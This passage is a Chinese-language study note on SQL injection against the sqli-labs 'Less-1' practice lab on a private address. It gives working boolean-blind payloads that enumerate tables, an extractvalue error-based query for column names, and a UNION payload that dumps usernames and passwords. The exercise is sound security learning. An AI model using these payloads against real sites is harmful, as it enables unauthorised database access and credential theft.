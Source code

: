 - 开始攻击

![image-20240820201050012](学习/笔记/assets/image-20240820201050012.png)

- 根据顺序得到--> 115 101 99 117 114 105 116 121 即为:``security``

- 然后开始获取数据库表的``数目``(跟前面判断数据库的字符数是一样的,这里有``4张``表)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

- 获取第一个表的``表名长度``(6个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 0,1) =6--+
```

- 获取第二个表的``表名长度``(8个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 1,1) =8 --+
```

- 获取第三个表的``表名长度``(7个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 2,1) =7 --+
```

- 获取第四个表的``表名长度``(5个字段)-->``users``

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 3,1) =5 --+
```

- 获取``表名``--> 117 115 101 114 115 即:``users``

![image-20240820205508239](学习/笔记/assets/image-20240820205508239.png)

- 获取字段名(我们只需要获取到数据库名和表名即可,然后用其它方式获取数据)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x3a)) --+
```

- 使用union获取所有数据

```sql
http://192.168.77.131/master/Less-1/?id=-1' UNION SELECT 1, (SELECT group_concat(id, 0x3a, username, 0x3a, password SEPARATOR 0x0a) FROM security.users), 3 --+
```

### 时间盲注(这里使用yakit,个人比较喜欢)
